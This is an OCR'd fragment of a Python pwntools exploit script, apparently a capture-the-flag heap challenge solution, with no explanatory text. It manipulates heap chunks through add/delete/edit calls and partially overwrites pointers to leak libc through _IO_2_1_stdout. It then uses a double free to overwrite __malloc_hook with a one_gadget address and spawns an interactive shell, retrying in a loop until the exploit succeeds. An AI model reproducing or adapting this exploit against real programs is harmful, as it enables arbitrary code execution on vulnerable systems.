 ```python
	#gdb.attach(p)
	add(0x60,4,'aaaa')
	#gdb.attach(p)
	add(0x60,5,'bbbb')
	#gdb.attach(p)
	delete(3)
	#gdb.attach(p)
	delete(4)
	#gdb.attach(p)
	edit(4,'\x10')
	#gdb.attach(p)
	add(0x60,8,'dd')
	#gdb.attach(p)
	add(0x60,7,p64(0)*3+p64(0x21)+p64(0)*3+p64(0xb1))
	#gdb.attach(p)
	delete(2)
	delete(3)
	#gdb.attach(p)
	add(0x38,2,'aaa')
	edit(3,'\xdd\x85')
	payload1='\x00'*0x33+p64(0xfbad3c80)+3*p64(0)+p8(0)#0x33 p &_IO_2_1_stdout=0x7fc3e534c620  0x620-0x5dd-0x10=0x33
	add(0x60,8,'aaa')

	add(0x60,9,payload1)
	#gdb.attach(p)

	libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c5600
	#gdb.attach(p)
	print(hex(libcbase))
	malloc_hook=libcbase+libc.sym['__malloc_hook']
	o_g=[0x45216,0x4526a,0xf02a4,0xf1147]
	one_gadget=libcbase+o_g[3]
	delete(3)
	delete(4)
	delete(3)
	add(0x60,3,p64(malloc_hook-0x23))
	add(0x60,6,'doudou')
	add(0x60,4,'doudou1')
	add(0x60,8,'a'*0x13+p64(one_gadget))
	log.success('libcbase: '+hex(libcbase))
	p.sendlineafter('>>','1')
	p.sendlineafter(': ',str(0x20))
	p.sendlineafter(': ',str(8))
	p.interactive()
	return True

if __name__=="__main__":
	while 1:
		try:
			if pwn()==True:
				break
		except Exception as e:
			p.close()
			continue


```
